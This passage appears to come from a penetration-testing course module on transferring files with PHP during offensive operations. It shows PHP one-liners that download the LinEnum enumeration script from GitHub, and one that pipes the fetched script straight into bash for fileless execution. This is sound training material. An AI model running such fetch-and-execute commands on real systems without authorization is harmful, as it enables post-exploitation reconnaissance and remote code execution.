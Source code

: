 ## PHP

`PHP` is also very prevalent and provides multiple file transfer methods. [According to W3Techs' data](https://w3techs.com/technologies/details/pl-php), PHP is used by 77.4% of all websites with a known server-side programming language. Although the information is not precise, and the number may be slightly lower, we will often encounter web services that use PHP when performing an offensive operation.

Let's see some examples of downloading files using PHP.

In the following example, we will use the PHP [file_get_contents() module](https://www.php.net/manual/en/function.file-get-contents.php) to download content from a website combined with the [file_put_contents() module](https://www.php.net/manual/en/function.file-put-contents.php) to save the file into a directory. `PHP` can be used to run one-liners from an operating system command line using the option `-r`.

#### PHP Download with File_get_contents()

PHP Download with File_get_contents()

```shell-session
glack@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

An alternative to `file_get_contents()` and `file_put_contents()` is the [fpopen() module](https://www.php.net/manual/en/function.fopen.php). We can use this module to open a URL, read it's content and save it into a file.

#### PHP Download with Fopen()

PHP Download with Fopen()

```shell-session
glack@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

---

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

#### PHP Download a File and Pipe it to Bash

PHP Download a File and Pipe it to Bash

```shell-session
glack@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Note:** The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.